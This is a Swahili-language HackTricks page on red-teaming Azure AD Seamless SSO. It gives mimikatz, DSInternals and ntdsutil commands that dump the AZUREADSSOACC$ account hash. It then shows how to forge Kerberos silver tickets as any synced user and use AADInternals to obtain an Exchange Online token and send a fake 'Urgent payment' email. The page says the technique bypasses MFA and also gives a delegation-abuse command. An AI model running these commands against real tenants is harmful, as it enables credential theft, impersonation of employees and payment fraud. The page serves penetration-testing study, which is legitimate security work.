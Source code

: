 # Az - Usajili wa SSO wa Kupitisha

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana katika HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

[Kutoka kwa nyaraka:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Usajili wa Kuingia Moja (Azure AD Seamless SSO) wa Azure Active Directory (Azure AD Seamless SSO) moja kwa moja **inaingiza watumiaji wanapokuwa kwenye vifaa vyao vya kampuni** vilivyounganishwa kwenye mtandao wako wa kampuni. Ikiwa imewezeshwa, **watumiaji hawahitaji kuingiza nywila zao kuingia kwenye Azure AD**, na kawaida, hata kuingiza majina yao ya mtumiaji. Kipengele hiki hutoa watumiaji wako ufikiaji rahisi kwa programu zako zilizoko kwenye wingu bila kuhitaji sehemu za ndani za on-premises.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

Kimsingi Azure AD Seamless SSO **inaingiza watumiaji** wanapokuwa **kwenye PC iliyoshirikishwa kwenye kikoa cha on-prem**.

Inasaidiwa na [**PHS (Udhibitishaji wa Hashi ya Nywila)**](phs-password-hash-sync.md) na [**PTA (Udhibitishaji wa Kupitisha)**](pta-pass-through-authentication.md).

SSO ya Desktop inatumia **Kerberos** kwa uthibitishaji. Ikiwa imeboreshwa, Azure AD Connect inaunda **akaunti ya kompyuta inayoitwa AZUREADSSOACC`$`** kwenye AD ya on-prem. Nywila ya akaunti ya `AZUREADSSOACC$` inatumwa kama **maandishi wazi kwenda Azure AD** wakati wa usanidi.

**Tiketi za Kerberos** zina **fichwa** kwa kutumia **NTHash (MD4)** ya nywila na Azure AD inatumia nywila iliyotumwa kufichua tiketi.

**Azure AD** inafunua **kituo** (https://autologon.microsoftazuread-sso.com) kinachokubali **tiketi za Kerberos**. Kivinjari cha mashine iliyoshirikishwa kwenye kikoa kinapeleka tiketi kwa kituo hiki kwa SSO.

### On-prem -> wingu

**Nywila** ya mtumiaji **`AZUREADSSOACC$` kamwe haibadiliki**. Kwa hivyo, msimamizi wa kikoa anaweza kudhoofisha **hashi ya akaunti hii**, na kisha kutumia kuunda **tiketi za fedha** kuunganisha na Azure na **mtumiaji yeyote wa on-prem aliyesawazishwa**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Kwa hash sasa unaweza **kuzalisha tiketi za fedha**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Kutumia tiketi ya fedha, hatua zifuatazo zinapaswa kutekelezwa:

1. **Anzisha Kivinjari:** Mozilla Firefox inapaswa kuzinduliwa.
2. **Sanidi Kivinjari:**
   * Nenda kwa **`about:config`**.
   * Weka upendeleo kwa [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) kwa [maadili](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
     * `https://aadg.windows.net.nsatc.net`
     * `https://autologon.microsoftazuread-sso.com`
3. **Fikia Programu ya Wavuti:**
   * Tembelea programu ya wavuti iliyounganishwa na kikoa cha AAD cha shirika. Mfano wa kawaida ni [Office 365](https://portal.office.com/).
4. **Mchakato wa Uthibitisho:**
   * Kwenye skrini ya kuingia, jina la mtumiaji linapaswa kuingizwa, likiacha uga wa nenosiri wazi.
   * Ili kuendelea, bonyeza TAB au ENTER.

{% hint style="success" %}
Hii haitoi MFA ikiwa imeanzishwa
{% endhint %}

#### ~~Kuunda tiketi za Kerberos kwa watumiaji wa wingu pekee~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Ikiwa waendeshaji wa Active Directory wana ufikiaji wa Azure AD Connect, wanaweza **kuweka SID kwa mtumiaji yeyote wa wingu**. Kwa njia hii tiketi za Kerberos **zinaweza kuundwa pia kwa watumiaji wa wingu pekee**. Mahitaji pekee ni kwamba SID ni [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) sahihi.

{% hint style="danger" %}
Kubadilisha SID ya watumiaji wa wingu pekee wa admin sasa **imezuiliwa na Microsoft**.\
Kwa habari angalia [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Wingu kupitia Uteuzi wa Kizuizi cha Rasilimali Kulingana na Mamlaka <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Yeyote anayeweza kusimamia akaunti za kompyuta (`AZUREADSSOACC$`) kwenye chombo au OU akaunti hii iko, anaweza **kusanidi uteuzi wa kizuizi cha rasilimali kulingana na mamlaka juu ya akaunti na kufikia**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Marejeo

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Nipo kwenye wingu lako, nikisoma barua pepe za kila mtu - kuhakiki Azure AD kupitia Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuhack kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
